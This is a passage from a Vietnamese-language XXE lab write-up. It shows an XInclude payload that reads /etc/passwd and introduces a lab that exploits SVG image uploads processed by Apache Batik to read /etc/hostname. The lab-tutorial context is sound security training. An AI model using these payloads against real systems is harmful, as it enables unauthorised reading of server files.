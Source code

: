 ==> Cho thấy trang web chứa quá trình phân tích cú pháp XML.

-Sử dụng kỹ thuật XInclude attack với payload như sau:

```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/>
</foo>
```


-NOTE that: Link "http://www.w3.org/2001/XInclude" chỉ là URI định danh của chuẩn W3C cho XInclude 


## Lab: Exploiting XXE via image file upload

**END goals**: Trang web sử dụng Apache Batik library để xử lý ảnh được upload từ user. Ta cần chèn payload khai thác lỗ hổng XXE vào hình ảnh upload để sau khi trang web thực hiện xử lý hình ảnh, chúng ta có thể đọc được nội dung file "/etc/hostname"

- Chức năng comment cho phép user upload file với định dạng ".svg":

![alt text](./img/lab9-1.png)
